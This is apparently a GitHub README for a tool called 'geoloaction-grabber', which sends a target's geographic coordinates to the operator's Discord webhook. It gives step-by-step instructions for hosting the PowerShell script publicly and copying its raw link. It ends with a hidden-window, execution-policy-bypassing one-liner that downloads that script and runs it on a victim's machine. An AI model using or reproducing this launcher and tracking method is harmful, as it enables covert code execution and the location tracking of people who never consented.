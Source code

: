 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2?raw=true" width="350"> 
<p>click the pen<p/>
<p>del .txt<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3?raw=true" width="350"> 
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
 <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4?raw=true" width="350"> 
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  

